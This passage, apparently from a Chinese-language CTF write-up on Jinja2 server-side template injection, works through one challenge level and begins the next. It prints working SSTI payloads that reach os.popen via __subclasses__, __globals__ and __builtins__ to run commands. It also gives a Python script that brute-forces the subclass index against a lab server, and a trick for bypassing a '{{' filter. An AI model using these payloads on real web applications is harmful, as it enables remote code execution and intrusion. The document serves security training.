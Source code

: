 也可以利用它的循环语句来进行获取 flag

```bash
{%for i in ''.__class__.__base__.__subclasses__()%}{%if i.__name__ =='_wrap_close'%}{%print i.__init__.__globals__['popen']('cat flag').read()%}{%endif%}{%endfor%}
```

不想找类的话，这里可以偷懒一下，用`__builtins__`模块来进行 RCE

```bash
{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
```

[![在这里插入图片描述](assets/1698900310-ec287f4c53d7806410a7250867078dae.png)](https://storage.tttang.com/media/attachment/2022/08/14/ffc7dd18-a845-4c92-8eba-73a15c36ea1e.png)  
利用这个模块的话，还有其他几种 payload 方式，罗列如下

```bash
{{x.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
{{config.__init__.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
{{url_for.__globals__['__builtins__']['eval']("__import__('os').popen('cat flag').read()")}}
```

### [level 2](#toc_level-2)

[![在这里插入图片描述](assets/1698900310-8304196e3ff53b9493c0e965a20f0e2d.png)](https://storage.tttang.com/media/attachment/2022/08/14/4ba8967c-2ac8-4af3-a6b0-4032d10b8097.png)

过滤了`{{`  
这个时候可以考虑用`{%`,利用上关的思路，多加个 print 就可以  
简单修改一下脚本

```bash
import requests

headers = {
    'User-Agent':'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/104.0.0.0 Safari/537.36'}
for i in range(500):
    try:
        url = "http://192.168.134.132:5000/level/2"
        data={"code":'{%print(().__class__.__bases__[0].__subclasses__()['+str(i)+'])%}'}
        res = requests.post(url=url,data=data, headers=headers)
        #print(res.text)
        if 'os._wrap_close' in res.text:
            print(i)
    except:
        pass
```
